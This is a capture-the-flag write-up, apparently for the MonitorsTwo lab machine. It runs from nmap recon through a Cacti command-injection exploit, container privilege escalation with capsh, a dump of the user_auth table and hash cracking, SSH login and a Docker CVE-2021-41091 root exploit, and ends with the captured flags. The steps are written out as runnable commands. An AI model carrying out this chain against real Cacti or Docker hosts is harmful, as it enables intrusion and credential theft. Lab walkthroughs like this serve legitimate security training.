

# Recon

All tcp scan: 

```sh
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.211
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Detailed scan:

```sh
nmap -p 22,80 -sVC --min-rate 10000 -oA scans/nmap-tcpdetail 10.10.11.211
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Login to Cacti
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Directory enumeration didn't yield anything cruicial.

# Shell as marcus

We visit port 80 and we can see that cacti version used for this site is
vulnerable to RCE. To exploit it, we can use metasploit module:

```
[msf](Jobs:0 Agents:0) exploit(linux/http/cacti_unauthenticated_cmd_injection)
```

After getting access and running linpeas, we realize that we are inside a docker
container. Also, there is a suid command that can be used to escalate privileges
inside this container, which will be useful later:

```sh
capsh --gid=0 --uid=0 --
```

In root directory, we can see script that reveals database credentials. We use them
to show tables, and among them, there is user_auth table. We select information
from it:

```sh
mysql --host=db --user=root --password=root cacti -e "select * from user_auth;"
id	username	password 	...SNIP...
1	admin	$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC	...SNIP...
3	guest	43e9a4ab75570f5b    ...SNIP...
4	marcus	$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C ...SNIP...
```

The password hash of user marcus can be cracked:  



Site used:
[https://hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash)

We can try to login with it via ssh, discovered before via nmap:

```sh
> ssh marcus@10.10.11.211
```


When asked for password, we type in "funkymonkey" and it works!

```sh
marcus@monitorstwo:~$ whoami
marcus
```

# Shell as root

After logging in, following message appears:

```
You have mail.
Last login: Sun May 28 10:07:01 2023 from 10.10.14.12
```

We check the mail:

```sh
cd /var/mail
cat marcus
```

```
Subject: Security Bulletin - Three Vulnerabilities to be Aware Of

Dear all,

We would like to bring to your attention three vulnerabilities that have 
been recently discovered and should be addressed as soon as possible.

CVE-2021-33033: This vulnerability affects the Linux kernel before 5.11.14
and is related to the CIPSO and CALIPSO refcounting for the DOI definitions.
Attackers can exploit this use-after-free issue to write arbitrary values.
Please update your kernel to version 5.11.14 or later to address this vulnerability.

CVE-2020-25706: This cross-site scripting (XSS) vulnerability affects Cacti 1.2.13 and 
occurs due to improper escaping of error messages during template import previews in the 
xml_path field. This could allow an attacker to inject malicious code into the webpage,
potentially resulting in the theft of sensitive data or session hijacking.
Please upgrade to Cacti version 1.2.14 or later to address this vulnerability.

CVE-2021-41091: This vulnerability affects Moby, an open-source project created
by Docker for software containerization. Attackers could exploit this vulnerability
by traversing directory contents and executing programs on the data directory with
insufficiently restricted permissions. The bug has been fixed in Moby (Docker Engine)
version 20.10.9, and users should update to this version as soon as possible.
Please note that running containers should be stopped and restarted for the 
permissions to be fixed.

We encourage you to take the necessary steps to address these vulnerabilities promptly
to avoid any potential security breaches. If you have any questions or concerns,
please do not hesitate to contact our IT department.

Best regards,

Administrator
CISO
Monitor Two
Security Team
```

As we can see, they conviniently provided us with CVE's to exploit.

```bash
docker --version
Docker version 20.10.5+dfsg1, build 55c4c88
```

Docker version on this system is vulnerable to CVE described in email.
There is exploit ready on github for this one.

First, as a root, we set suid on /bin/bash on container we have 
access to:

```sh
chmod u+s /bin/bash
```

Then, on attacker machine, we clone the repo with exploit:

```sh
git clone https://github.com/UncleJ4ck/CVE-2021-41091
cd CVE-2021-41091
```

We upload exploit to target machine:

```sh
scp ./exp.sh marcus@10.10.11.211:/home/marcus
```

We run it:

```sh
chmod +x exp.sh
./exp.sh
```

Afterwards, if root session was not created yet, we run following commands
to gain root access:

```sh
cd /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged

./bin/bash -p
bash-5.1# whoami
root
```

# Flags

User flag:
```
f79875a9ba1ae3763a21927b6dfa8eb8
```

Root flag:
```
919932474fe6e25eafd2f040641d1454
```
